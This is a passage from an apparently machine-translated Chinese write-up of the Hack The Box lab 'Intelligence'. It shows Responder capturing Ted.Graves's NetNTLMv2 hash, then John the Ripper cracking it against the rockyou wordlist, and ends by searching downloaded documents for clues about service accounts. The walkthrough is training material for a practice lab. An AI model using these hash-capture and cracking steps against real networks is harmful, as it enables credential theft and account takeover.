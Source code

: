 ```
    Responder Machine Name     [WIN-ZQMKCOX922L]
    Responder Domain Name      [45TT.LOCAL]
    Responder DCE-RPC Port     [49138]

[i] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.

[+] Listening for events...                          
[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:98592689b95ecf6e:435A2306687E740FF0DDFA17CAF82E4B<SNIP>9003E0048005400540050002F00770065006200700065006E006300650072002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000
```

# 哈希破解

几分钟后，我们抓住了泰德。格雷夫斯密码散列。我们可以使用 JohnTheRipper 来尝试破解它:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# nth --file hash.txt 

Ted.Graves::intelligence:98592689b95ecf6e:435A2306687E740FF0DDFA17CAF82E4B<SNIP>9003E0048005400540050002F00770065006200700065006E006300650072002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000

Most Likely 
NetNTLMv2, HC: 5600 JtR: netntlmv2

┌──(root💀kali)-[~/htb/intelligence]
└─# john hash.txt -format=netntlmv2 -w=/usr/share/wordlists/rockyou.txtUsing default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>        (Ted.Graves)
1g 0:00:00:05 DONE (2021-10-07 22:19) 0.1941g/s 2100Kp/s 2100Kc/s 2100KC/s Mrz.deltasigma..Morgant1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

# 服务帐户

只用了几秒钟就破解了。然而，我遇到了一点困难，因为这些凭证并没有在我认为它们会起作用的地方起作用。由于在 SMB 上没有前进的道路，我回到下载的 pdf 文件上，搜索 Ted:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# grep -rl "Ted" *.txt | cat $file
2020-12-30-upload.txt

┌──(root💀kali)-[~/htb/intelligence]
└─# cat 2020-12-30-upload.txtInternal IT Update
There has recently been some outages on our web servers. Ted has gotten a
script in place to help notify us if this happens again.
Also, after discussion following our recent security audit we are in the process
of locking down our service accounts.
```
